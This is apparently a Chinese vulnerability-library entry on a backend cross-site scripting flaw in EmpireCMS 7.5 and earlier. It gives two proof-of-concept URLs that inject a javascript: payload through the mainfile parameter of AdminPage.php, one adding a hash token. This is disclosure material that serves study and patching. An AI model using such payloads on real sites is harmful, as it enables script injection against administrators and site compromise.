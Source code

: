 ```yaml
---
title: 'EmpireCMS-V7.5后台xss漏洞.assets'
date: Wed, 09 Sep 2020 14:03:12 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <=7.5

### 漏洞POC

需要有后台权限

```
http://********/e/admin/openpage/AdminPage.php?mainfile=javascript:alert(/xss/)
```

若提示非法来源加入参数hash参数，例：ehash\_gxCQz=zERR2KY6NAMicC0c5OYv,如下 ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0xss%E6%BC%8F%E6%B4%9E/15996652611.png)

```
http://********/e/admin/openpage/AdminPage.php?mainfile=javascript:alert(/xss/)&ehash_gxCQz=zERR2KY6NAMicC50Yv
```